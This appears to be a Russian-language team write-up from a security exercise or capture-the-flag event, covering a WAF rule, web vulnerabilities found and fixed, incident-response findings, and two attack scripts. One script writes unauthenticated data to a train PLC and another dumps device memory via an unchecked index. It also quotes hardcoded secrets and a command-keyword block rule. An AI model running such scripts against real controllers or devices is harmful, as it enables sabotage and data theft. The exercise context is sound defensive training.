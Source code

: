 ## Отчет команды "Солнцево" о решенных задачах с развернутым ответом

### 1. Касса WAF
Был обнаружен WAF - ModSecurity.
Мы включили его, проставив опцию `SecStatusEngine On` в `/etc/nginx/modsecurity.d/modsecurity.conf` и добавили правило:
```
SecRule REQUEST_URI|ARGS|REQUEST_BODY “@rx (?i)(system|bash|etc)”  
“phase:2,deny,id:7331,msg:’Forbidden bruhh’,log,auditlog,status:403”
```
### 2. Мониторинг WAF
### 3. Непрошенные гости! - 1
Зашли на гитлаб, посмотрели на код и результаты работы CI (в котором все прогоняется через SonarQube).
Нашли следующие узявимости:
1. **Открытая БД**
	База данных торчит в интернет, а стандартный пароль от нее слабоват
2. **Пароли в БД хранятся в открытом виде**
	Пароли там не хэшируются (правда не везде, вопросы к работоспособности сервиса в целом ¯\\_(ツ)_/¯
3. **SQL-инъекция**
	В `diary/app/mysite/views.py` запросы форматируются f-строками, что приводит к SQL-инъекции
4. **Токены не блокируются**
	Проверка того, что токен заблокирован и блокировка токена происходят в разных ключах в redis, так что блокировка токенов не работает
5. **Ключи от джанго в коде**
	```python
	SECRET_KEY = "Abqh4LSVdohqrlhtalvifAmEsymAvY9p"`
	```
	Знание ключа позволяет подписывать сессии и делать множество других страшных вещей
6. **Пароль от БД в коде**
	```python
	SQLALCHEMY_DATABASE_URL = f'postgresql://postgres:postgres@db:5432/postgres'`
	```
	Пароль, кстати, не всегда правильный, опять вопросы к работоспособности сервиса в целом ¯\\_(ツ)_/¯
7. **CSRF**
	В коде основного приложения вообще все ручки помечены как `@csrf_exempt`, что значит, что они никак не защищены от CSRF.
8. **Debug**
	В конфигурации django параметр Debug - `True`, что **плохо** влияет на общую безопасность
9. **Пароль от почты в коде**
	```python
	mail_password = "adm.school.back"`
	``` 
	Это позволяет получить доступ в почте
10. **Отсутствие аутентификации на сервисе для уведомлений**
	Так как он торчит в интернет, любой человек может отправлять на почту уведомления от имени организации
### 4. Непрошенные гости! - 2
1. Закрыли открытый в интернет порт
2. Сделали так, чтобы все пароли хэшировались
3. Использовали параметризованные запросы вместо f-строк
4. Сделали так, чтобы использовались одинаковые ключи
5. Теперь ключ берется из секретов docker compose
6. Теперь пароль берется из `.env`
7. Убрали все `@csrf_exempt`
8. Убрали Debug-режим
9. Теперь пароль берется из `.env`
10. Закрыли доступ в этот сервис из интернета
###  5. Поезд
Контроллер вообще не имеет никакой аутентификации, так что можно просто записать нашу строчку в память (цикл чтобы не ждать пока поезд остановится):
```python
from snap7.client import Client

while True:
    try:
        client = Client()
        client.connect("10.10.14.2", 0, 1)

        for i in range(200):
            offset = i * 50
            data = b"Solncevo" + b"\x00" * 42
            client.db_write(1, offset, data)
            print(i)

        client.disconnect()

    except:
        pass
```
### 6. Враг врага 1 - 1
Через почту от `admin [at] mai1server.pma.ru`
(1 - фишинг)
### 7. Враг врага 1 - 2
Был скачан архив `np++.zip`, в котором был файл `np++_release.exe` с иконкой `7Zip`.  Этот файл и является вредоносным
### 8. Враг врага 1 - 3
### 9. Враг врага 1 - 4
### 10. Враг врага 1 - 5
### 11. Враг врага 1 - 6
### 12. Враг врага 1 - 7
Скрипт, который запускается в результате активности приложения соединяется с хостом `103.137.250.153:8080`
### 13. Враг врага 1 - 8
Файл `Passwords.xlsx` с паролями.
### 14. Враг врага 2 - 1
На системе хостилось приложение на `Flask` в режиме отладки, с пин-кодом от консоли разработчика `123-456-789`. Злоумышленник прокинул через консоль реверс-шелл и подключился к системе.
### 15. Враг врага 2 - 2
- `81.177.221.242` - загрузка шифровальщика app 
- `10.10.10.12` - проникновение на систему
### 16. Враг врага 2 - 3
- сжатие с помощью [UPX](https://github.com/upx/upx)
- использование `CUSTOM_write` ([пример](https://github.com/tobyxdd/linux-anti-debugging/)) для защиты от дебага через ptrace
### 17. Враг врага 2 - 4
Нашли в Wireshark: `2025-01-22 22:35:52,600366701`
### 18. Враг врага 2 - 5
### 19. Враг врага 2 - 6
### 20. Кроличий горшок 2.0
Погуглив информацию про горшок и поизучав его API, мы нашли уязвимость: команда 1 позволяла получать данные из массива, при этом не проверяя границы - т.е., мы можем читать память горшка. Вот таким скриптом мы сдампили память:
```python
import struct  
import requests  

start_param = 0  
end_param = 10000

with open("meow.bin", "wb") as f:  
  for i in range(start_param, end_param):  
    print(f"[*] Requesting {i}")  
    r = requests.post("http://ADDRESS/control", json={"cmd": 1, "param": i})  
    value = r.json()["value"]  
    if type(value) == int:  
        f.write(struct.pack("<i", value))  
    elif type(value) == float:  
        f.write(struct.pack("<f", value))  
    elif value is None:  
        f.write(struct.pack("<i", 0))  
    else:  
        print("Unknown type!", value)  
    f.flush()
```
Внутри дампа памяти и нашелся флаг.
### 21. WIFI-Роутер
#### Флаг 1.
Если еще немного повыяснять про горшок, можно обнаружить, что в нем хранится пароль от сети, которую он сам же и раздает - проверив строки из дампа, мы смогли зайти на роутер и получить флаг
#### Флаг 2.
Пока не решили :(



